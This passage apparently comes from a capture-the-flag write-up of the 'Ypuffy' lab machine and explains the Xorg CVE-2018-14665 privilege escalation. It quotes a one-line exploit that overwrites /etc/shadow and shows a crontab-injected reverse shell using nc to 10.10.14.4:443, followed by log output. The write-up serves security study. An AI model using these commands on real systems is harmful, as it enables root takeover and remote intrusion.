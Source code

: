 Ypuffy was released in September 2018, and a little over a month later (on 25
October), CVE-2018-14665 was released identifying an incorrect permission
check in Xorg that allowed privilege escalation from unprivileged users.

There are tons of scripts on GitHub etc that will exploit this vulnerability
automatically. There’s also a Metasploit module. I’m going to do it manually.

The basic vulnerability is pretty simple: Xorg, assuming it’s running setuid,
can overwrite a log file wherever the user tells it to with whatever data the
user gives it. There will be other data in there, but that can still be quite
powerful.

For example, HackerFantastic on Twitter tweeted out a [POC in a single
tweet](https://twitter.com/hackerfantastic/status/1055517801224396800):

> #CVE-2018-14665 - a LPE exploit via <https://t.co/eax3fvaAjE> fits in a
> tweet  
>  
> cd /etc; Xorg -fp "root::16431:0:99999:7:::" -logfile shadow :1;su  
>  
> Overwrite shadow (or any) file on most Linux, get root privileges. *BSD and
> any other Xorg desktop also affected.
>
> — Hacker Fantastic (@hackerfantastic) [October 25,
> 2018](https://twitter.com/hackerfantastic/status/1055517801224396800?ref_src=twsrc%5Etfw)

#### Exploit

With that in mind, there are a few places I could target. The
`/etc/master.passwd` file (like `/etc/shadow` on BSD). I’ll go for the
`crontab`.

I started a listener on port 443, and then wrote my cron:

    
    
    ypuffy$ Xorg -fp "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 443 > /tmp/f" -logfile crontab :1 &
    

This will error out (and I’ll have to kill it), but it will also write that
dump to a log file which I specified, `/etc/crontab`.

I can look at that file:

    
    
    [178588.565] (WW) checkDevMem: failed to open /dev/xf86 and /dev/mem
            (Operation not permitted)
            Check that you have set 'machdep.allowaperture=1'
            in /etc/sysctl.conf and reboot your machine
            refer to xf86(4) for details
    [178588.565]    linear framebuffer access unavailable
    [178588.779] (--) Using wscons driver on /dev/ttyC4
    [178588.788]
    X.Org X Server 1.19.6
    Release Date: 2017-12-20
    ...[snip]...
    [178588.790] (==) Max clients allowed: 256, resource mask: 0x1fffff
    [178588.790] (++) FontPath set to:
            * * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 443 > /tmp/f
    [178588.790] (==) ModulePath set to "/usr/X11R6/lib/modules"
    [178588.790] (II) The server relies on wscons to provide the list of input devices.
            If no devices become available, reconfigure wscons or disable AutoAddDevices.
    [178588.790] (II) Loader magic: 0x199318742000
    ...[snip]...
    Fatal server error:
    [178588.796] (EE) Caught signal 11 (Segmentation fault). Server aborting
    [178588.796] (EE) 
    [178588.796] (EE) 